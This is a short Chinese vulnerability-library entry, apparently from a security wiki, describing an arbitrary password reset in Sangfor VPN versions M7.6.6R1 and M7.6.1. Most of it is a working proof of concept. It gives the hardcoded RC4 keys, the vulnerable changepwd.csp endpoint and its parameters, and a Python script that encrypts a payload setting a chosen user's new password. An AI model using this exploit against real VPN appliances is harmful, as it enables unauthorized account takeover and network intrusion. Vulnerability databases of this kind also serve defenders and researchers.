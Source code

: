 ```yaml
---
title: '深信服VPN任意密码重置'
date: Thu, 17 Sep 2020 04:56:37 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

已知M7.6.6R1 M7.6.1 其他版本有待测试

### 漏洞POC

M7.6.6R1 key 为 20181118 M7.6.1 key 为 20100720```
https://<path>/por/changepwd.csp

sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN 
``````
计算RC4_STR_LEN脚本
from Crypto.Cipher import ARC4
from binascii import a2b_hex

def myRC4(data,key):
    rc41 = ARC4.new(key)
    encrypted = rc41.encrypt(data)
    return encrypted.encode('hex')


def rc4_decrpt_hex(data,key):
    rc41 = ARC4.new(key)
    return rc41.decrypt(a2b_hex(data))
key = '20100720'
data = r',username=TARGET_USERNAME,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=TARGET_PASSWORD,'
print myRC4(data, key) 
```